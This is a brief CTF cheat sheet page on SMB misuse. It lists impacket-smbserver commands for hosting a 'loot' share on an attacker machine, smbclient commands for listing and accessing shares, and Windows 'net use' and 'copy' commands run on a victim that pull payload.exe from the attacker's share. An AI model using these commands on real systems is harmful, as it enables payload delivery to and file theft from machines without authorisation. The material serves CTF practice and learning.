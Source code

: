 # SMB Misuse

```
Description: SMB (Server Message Block) in a CTF means setting up an SMB server (to host or capture files) or connecting to an SMB share (client)

On Kali Linux:
# Syntax: impacket-smbserver shareName /path/to/share
impacket-smbserver loot /home/kali/share -smb2support       python3 /opt/impacket/examples/smbserver.py loot /tmp/share
Note: your share is accessible \\ATTACKER-IP\loot

```

# SMB Client (Victim or Local Testing)(Linux)
```
smbclient //10.10.10.125/share -U username                  smbclient -N //10.10.10.125/share

# List shares
smbclient -N -L //10.10.10.125
```

# SMB Client (Victim or Local Testing)(Windows)
```
Run cmd.exe or PowerShell

# List Drives (Execute on Victim) 
net view \\192.168.0.1

net use Z: \\192.168.1.100\loot                             copy \\192.168.1.100\loot\payload.exe C:\Temp\
```

## Back to README.md
[BACK](/README.md)